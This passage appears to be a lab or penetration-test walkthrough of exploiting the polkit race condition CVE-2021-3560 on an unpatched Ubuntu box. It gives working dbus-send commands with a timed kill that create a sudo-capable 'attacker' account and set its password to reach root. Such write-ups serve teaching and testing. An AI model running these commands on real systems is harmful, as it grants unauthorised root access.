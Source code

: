Unfortunately for the client, the polkit libraries are not updated (version **0.105-26ubuntu1** rather than **0.105-26ubuntu1.1**), which means we should be able to escalate privileges straight to root using [CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug).

## Privilege Escalation - Polkit

[CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug) is, fortunately, a very easy vulnerability to exploit if the conditions are right. The vuln is effectively a race condition in the policy toolkit authenticaiton system.

Effectively, we need to send a custom dbus message to the account-daemon, and kill it approximately halfway through execution (after it gets received by polkit, but before polkit has a chance to verify that it's legitimate -- or, not, in this case).

We will be trying to create a new account called attacker with sudo privileges. Before we do so, let's check to see if an account with this name already exists.

```bash
id attacker
```

Perfect this username is free to use!

Now that we've established that we can create a new account with the username "attacker" without disrupting anything else on the box, lets get a benchmark for how long it takes to send and process a dbus message to the accounts daemon:

```bash
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

This attempts to create our new account, and times how long it takes for the command to finish. In the target machine this should be about 11 miliseconds:

We now need to take the same message, send it, then cut it off at about halfway through execution. 5 milliseconds tends to work fairly for this box:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

We can then check to see if a new attacker account has been created (```id attacker```)

Now we need to set a password for this account. We use exactly the same technique here, but with a different dbus message. Whatever delay worked last time should also work here:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'pass hash' string:'Ask the pentester' & sleep 0.005s; kill $!
```

This will set the password of our new account to **Expl01ted** -- all ready for us to just su then sudo -s our way to root!

And with that we are done!

## Wrapping Up

Now will all our findings we need to write our report to the client and we're done with this one.
